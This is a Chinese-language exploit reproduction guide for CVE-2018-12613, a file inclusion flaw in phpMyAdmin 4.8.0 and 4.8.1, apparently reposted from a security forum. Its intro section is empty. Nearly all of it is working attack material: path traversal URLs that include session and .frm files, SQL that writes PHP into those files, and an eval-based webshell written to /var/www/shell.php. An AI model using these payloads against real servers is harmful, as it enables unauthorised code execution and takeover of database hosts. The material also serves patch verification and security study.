 # （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3082](https://www.zhihuifly.com/t/topic/3082)

# （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

phpMyAdmin 4.8.0和4.8.1受到影响。

## 三、复现过程

首先需要登录phpmyadmin

### payload

```
http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../phpStudy/使用说明.txt 
```

![image](img/925e9ac79c25fd3034b7b241f4a5bb60.png)

### 写入shell

#### 第一种姿势

##### 1、写入shell，测试语句：

```
SELECT '<?php phpinfo()?>' 
```

![image](img/44a3dfdd24f48369be759fa7b754517c.png)

##### 2、查看自己的sessionid（cookie中phpMyAdmin的值）。(或者Bp抓包获取本地的cookie值也可以)

![image](img/73f70f8f92ba0da3dd3e1d5d48b34493.png)

##### 补充代码

如果上述方法不行的话，则用以下代码

```
select '<?php @eval($_POST[abc]);?>' into outfile '/var/www/shell.php' 
```

##### 3、访问：

```
http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../../../phpStudy/tmp/tmp/sess_20f18hqcr2mc0nmq96vp920r6phc06v3 
```

#### 第二种姿势

##### 1、在数据表里面添加一句话(这里一点要用get！)

![image](img/e38916db56e43583dd4e92792415b40b.png)

##### 2、此时会在phpStudyMySQLdata 对应数据库下生成一个frm文件（不同版本路径可能不一样）

![image](img/c7aa1d41ce09e49d792bd64d90118e6d.png)

##### 3、访问

```
http://0-sec.org/index.php?9ouu=phpinfo();&target=db_sql.php%253f/../../../../../../phpStudy/MySQL/data/9ouu/test.frm 
```

![image](img/eb9281e87824fb9d8b4d92363b2b4ece.png)